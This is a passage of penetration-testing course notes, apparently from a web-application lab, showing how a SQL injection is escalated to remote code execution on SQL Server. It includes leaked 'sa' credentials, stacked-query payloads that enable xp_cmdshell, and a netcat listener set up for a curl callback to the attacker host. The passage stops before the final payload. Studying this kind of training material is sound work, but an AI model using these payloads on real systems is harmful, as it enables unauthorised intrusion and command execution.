 #### 16.4.2. Exploit SQL Injection for RCE

When we are assessing a web application and successfully exploit a vulnerability, it is often useful to take a step back and think about what information we found during enumeration and how it applies to the vulnerability.

In our case, we can execute stacked queries through SQL injection attacks. The `application.properties` file contains some additional information that we will find useful.

```
...
spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ
...
```

Based on the file, the application may be connecting to the database as the `sa` user. The "sa" user in SQL Server is typically the System Administrator account and has elevated permissions on the server, including the ability to change configuration settings.

Most importantly to us, if our SQL injection payloads are executed under the `sa` user, we should be able to enable and use _xp_cmdshell_.

First, we need a payload that enables advanced options. We can use Microsoft's documentation[1](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/exploit-sql-injection-for-rce-37059#fn-local_id_331-1) as the basis of our payload.

```bash
EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;
```

We'll need to encode spaces and then send the payload in Repeater.
```bash
4;EXECUTE+sp_configure+'show+advanced+options',1;+RECONFIGURE;
```

![[Pasted image 20241108190236.png]]
The server responds with an HTTP 302. The SQL statement to enable advanced options doesn't typically result in any output. Since the server didn't return an error, we can assume our command was successful. Next, we'll enable _xp_cmdshell_. Again, Microsoft's documentation provides the basis of our payload.

```sql
EXECUTE+sp_configure+'xp_cmdshell',1;+RECONFIGURE;
```


![[Pasted image 20241108190746.png]]

Next, we will call _xp_cmdshell_ and verify the database enabled it. We could query the database to determine if _xp_cmdshell_ is enabled and insert the results into the subscriptions table. However, we'll use an easier approach. Let's call _xp_cmdshell_ and execute a curl request back to our host.

We'll start a netcat listener at port 8000.

```bash
kali@kali:~$ nc -nvlp 8000
listening on [any] 8000 ...
```
Now that our listener is running, we'll update our SQL injection payload to call curl with _xp_cmdshell_ and pass in our Kali's IP address and the port of our listener. Here's our base SQL injection payload:
